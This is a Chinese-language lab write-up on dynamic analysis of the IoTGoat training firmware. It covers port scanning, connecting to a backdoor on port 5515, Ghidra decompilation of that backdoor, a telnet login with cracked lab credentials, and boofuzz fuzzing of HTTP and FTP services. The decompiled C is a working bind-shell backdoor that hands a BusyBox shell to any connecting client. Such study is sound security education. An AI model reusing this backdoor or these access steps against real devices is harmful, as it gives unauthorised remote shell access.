# 第六章：物联⽹固件动态分析
---

## 实验环境

- 操作系统: Kali Linux
- 虚拟机软件: VirtualBox7.1.6

---

## 实验步骤

已知Iotgoat的地址为：`10.0.2.10`



### 实验⼀：IoTGoat 安全分析 —— Insecure Network Services

#### 步骤⼀：扫描 TCP 端口
对iotgoat的地址进行扫描，查看其端口开放情况

```sh
nmap -p- -sT 10.0.2.10
```




#### 步骤⼆：SSH (port 22)

```sh
ssh iotgoatuser@10.0.2.10
```
发现没有可用的RSA秘钥，因为从 OpenSSH 8.8 开始，基于 SHA-1 的 ssh-rsa 主机密钥算法默认被停用（原因是 SHA-1 已被认定不再安全）


临时进行配置，放开 ssh-rsa



连接成功

#### 步骤三：dnsmasq (port 53)

```sh
sudo nmap -sR -p 53 10.0.2.10
```

扫描查看53端口的开放情况



#### 步骤四：backdoor (port 5515)

```sh
netcat 10.0.2.10 5515
```

直接使用nc去连接5515端口



发现可以成功连接

#### （扩展）步骤四：
找到后门程序的目录位置：



打开Ghidra并将目标程序文件导入



在函数栏找到main函数后对其进行反编译，查看伪c代码：




```c
void main(void)

{
  int __fd;
  __pid_t _Var1;
  int iVar2;
  undefined **ppuVar3;
  int __fd2;
  char **ppcVar4;
  socklen_t local_50;
  char *local_4c [3];
  sockaddr local_40;
  sockaddr local_30;
  undefined1 *puStack_18;
  
  puStack_18 = &stack0x00000004;
  ppuVar3 = &PTR_s_/bin/busybox_08048734;
  ppcVar4 = local_4c;
  for (iVar2 = 3; iVar2 != 0; iVar2 = iVar2 + -1) {
    *ppcVar4 = *ppuVar3;
    ppuVar3 = ppuVar3 + 1;
    ppcVar4 = ppcVar4 + 1;
  }
  local_40.sa_family = 2;
  local_40.sa_data._0_2_ = htons(0x158b);
  local_40.sa_data[2] = '\0';
  local_40.sa_data[3] = '\0';
  local_40.sa_data[4] = '\0';
  local_40.sa_data[5] = '\0';
  iVar2 = socket(2,1,0);
  bind(iVar2,&local_40,0x10);
  listen(iVar2,1);
  __fd2 = 0;
  do {
    local_50 = 0x10;
    __fd = accept(iVar2,&local_30,&local_50);
    _Var1 = fork();
    if (_Var1 != 0) {
      write(__fd,"[***]Successfully Connected to IoTGoat\'s Backdoor[***]\n",0x37);
      for (; __fd2 < 3; __fd2 = __fd2 + 1) {
        dup2(__fd,__fd2);
      }
      execve("/bin/busybox",local_4c,(char **)0x0);
      close(__fd);
    }
    close(__fd);
  } while( true );
}
```

通过分析可以看出,这段程序在本机 5515 端口建立 TCP 监听，每当有客户端连接就 fork 出父进程，将该套接字重定向到标准输入/输出/错误，随后用 execve 把进程替换为 /bin/busybox sh，从而让远端用户立即获得一个 BusyBox 交互式 shell；子进程则继续循环 accept 以保持后门常开。

#### 步骤五：telnetd (port 65534)

按照同样的过程，使⽤netcat连接到最后⼀个未知端口65534，发现它正在请求凭据。

```sh
netcat 10.0.2.10 65534
```

输入账号密码进行登录,即之前爆破出来的账号密码：

>账号：iotgoatuser
密码:7ujMko0vizxv




---

### 实验⼆：使⽤ boofuzz

通过pip直接拉取库，供python代码使用：



由于保护机制，需要创建python的环境

```sh
python3 -m venv ~/.venvs/boofuzz
source ~/.venvs/boofuzz/bin/activate
```



接着继续安装




使用vim将对应代码分别写入`ftp_simple.py`、`http_simple.py`、`http_with_body.py`这三个文件

使用http开启http服务

```sh
 python3 -m http.server
```



修改http fuzz的目标端口：



启动测试



对于另外一个http的fuzz进行同样的修改并进行测试:



可以在web的26000端口查看进度信息：



在开启的http服务中可以查看日志信息



使用python开启ftp服务

```sh
python3 -m pip install --user pyftpdlib
python3 -m pyftpdlib -w -p 8021
```





修改fuzz文件中的测试端口为8021：



开启测试



也可以在web中查看



同样可以查看ftp的日志信息

